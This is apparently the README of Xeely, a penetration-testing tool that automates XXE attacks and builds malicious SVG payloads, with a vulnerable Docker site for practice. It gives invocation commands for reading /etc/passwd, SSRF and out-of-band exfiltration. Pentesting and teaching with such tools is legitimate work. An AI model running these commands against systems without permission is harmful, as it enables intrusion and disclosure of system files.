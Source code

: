 # Xeely
[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.10-yellow.svg)](https://www.python.org/)
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

## Purpose
Xeely is a Linux tool that permits to automate some XXE exploits: `File Disclosure`, `Directory Listing`, `SSRF`,`RCE`.
To carry out these attacks, a user can choose a particular method among those proposed below:

-   [DIRECT](https://portswigger.net/web-security/xxe)
-  [ERROR BASED](https://portswigger.net/web-security/xxe)
- [OOB](https://portswigger.net/web-security/xxe)


Xeely also supports the generation of malicious SVG payload to combine `XXE` and `File Upload` attacks.

This project also comes with a Docker image of a vulnerable PHP website to try out the tool.

⚡️ **This is an early release currently being tested.**


**Disclaimer**: Running the payloads generated by this tool against hosts that you do not have explicit permission to test is illegal. You are responsible for any trouble you may cause by using this tool.

## Preview
![image](assets/preview.png)

## Deploying vulnerable website

```
git clone https://github.com/0xHexPloit/Xeely.git
cd ./Xeely/vulnerable_website
docker build -t xeely-xxe-website .
docker run -d -p 80:80 xeely-xxe-website
```

If you now try to navigate to http://localhost:80/, you should see the following website:

![image](assets/vulnerable-website.png)

## Installation & Usage
```
git clone https://github.com/0xHexPloit/Xeely.git
cd ./Xeely
pip3 install -r requirements.txt
```

Once all the dependencies have been installed, you could identify if your target machine
is vulnerable to XXE attacks using the following command:

```
python3 -m xeely identify --request <PATH TO REQUEST FILE> --lhost <IP ADDRESS>
```

The `request` option expects a path to an HTTP Request file similar to the one in
the `resources` directory. We recommend to use `Burp` to generate this file.

Concerning the `lhost` option, the latter permits to specify the IP Address to use to
setup an HTTP server to handle XXE attacks using either `Error Based` or `OOB` method.

![image](assets/identify-command.png)

As shown on the above figure, our PHP website is vulnerable to `File Disclosure` and
`SSRF` attacks. Xeely also recommends to use the `DIRECT` mode/method to perform the
attack which is the most common way to perform an XXE attack.

With this knowledge in mind, we can now try to exfiltrate data using the `exploit` command.

```
python3 -m xeely exploit --request <PATH TO REQUEST FILE> --file /etc/passwd
```

```
python3 -m xeely exploit --request <PATH TO REQUEST FILE> --ssrf http://xxx
```

<hr />

**Useful remarks**:

It exists some files that cannot be retrieved using the above command. For example, PHP
tags will be taken into consideration by the XML parser. To overcome this issue, add the
`--base64` option if the backend server has been written in PHP or you could use `--cdata`
option if the backend server has been written in another language.

The `Directory Listing` attack only works for backend servers written in Java.

The `RCE` attack only works for backend servers written in PHP that have installed the
`expect` module (very rare).

<hr/>

As mentioned earlier, Xeely can also generate malicious SVG as shown below:

![image](assets/svg.png)

This payload can be obtained using the following command:

```
python3 -m xeely svg --file /etc/passwd
```

## Contributions

Feel free to open a pull request to recommend a new feature or
to notify me of a bug in the program.
